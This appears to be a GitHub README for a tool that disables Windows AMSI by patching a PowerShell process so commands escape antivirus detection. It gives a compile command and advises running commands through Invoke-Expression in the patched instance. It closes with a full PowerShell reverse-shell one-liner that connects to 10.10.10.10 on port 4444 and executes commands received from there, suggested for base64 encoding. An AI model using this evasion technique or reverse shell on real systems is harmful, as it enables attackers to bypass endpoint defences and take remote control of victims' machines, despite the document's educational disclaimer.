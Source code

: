 # Bypassing AMSI and Command Execution in Executable

This project demonstrates how to bypass the anti-malware scanning interface (AMSI) in Windows PowerShell to execute PowerShell commands without being detected by antivirus software.

## How It Works

AMSI is a Windows security feature that checks for malicious code in PowerShell scripts before they are executed. By default, PowerShell enables AMSI, which makes it difficult for malicious code to run undetected. However, it is possible to bypass AMSI with certain techniques.

In this project, we use a technique that involves patching an existing PowerShell process to disable AMSI scanning. This approach ensures that the PowerShell script runs without triggering any antivirus software alarms.

## Compilation Command

To compile the code in this project, use the following command:

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important Notes

 - Before running any PowerShell command, make sure that the command is exclusively PowerShell compatible to avoid any errors or problems.
 - It is recommended to avoid using `powershell.exe <command>` and opt for `Invoke-Expression` instead. By doing so, the command will be executed in the patched PowerShell instance created by the executable.
 - Please note that this project is intended solely for educational purposes and should not be used for malicious activities.

## Example Script

Here's an example of a one-liner PowerShell script that can be encoded in base64 format for easy transfer and execution. This script connects to a remote server at IP address `10.10.10.10` on port `4444` and starts a command shell.

````powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();```
